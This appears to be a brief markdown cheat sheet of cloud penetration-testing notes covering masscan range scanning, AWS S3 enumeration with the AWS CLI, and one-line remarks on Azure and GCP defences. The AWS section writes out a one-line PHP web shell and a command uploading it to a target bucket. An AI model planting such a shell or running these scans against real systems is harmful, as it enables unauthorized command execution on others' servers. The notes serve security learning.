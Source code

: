 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud    
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
## AWS     
AWS GuardDuty for security.     
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework   
Commands         

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls bucket.site.com    #list contents of a bucket    
    aws --endpoint=http://s3.site.com s3 ls      
    aws --endpoint=http://s3.site.com s3 ls s3://site.com   #list objects and common prefixes   
  
   # might be able to upload a php web shell
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com    

    
Resources      

    https://www.hackthebox.com/blog/aws-pentesting-guide    
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         

## Google Cloud   
GCP Cloud Armor for security.   
